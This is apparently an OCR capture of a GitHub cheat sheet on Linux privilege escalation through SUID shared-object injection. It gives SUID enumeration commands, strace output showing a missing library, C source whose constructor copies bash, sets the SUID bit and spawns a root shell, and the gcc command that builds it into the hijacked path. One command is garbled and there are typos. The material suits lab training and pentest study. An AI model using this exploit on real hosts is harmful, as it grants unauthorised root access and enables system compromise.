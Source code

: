    ## Enumeration
    
        find / -perm -u=s -type f 2>/dev/null
        find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
       https://gtfobins.github.io/
       
  ## Shared Object Injection
  
       find / -type f -perm -04000 -ls 2>/dev/null
       strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
       strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
       #include <stdio.h>
       #include <stdlib.h>

       static void inject()__attribute__((constructor));

      void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
      }
   
   ## Complie

       gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c










     
    
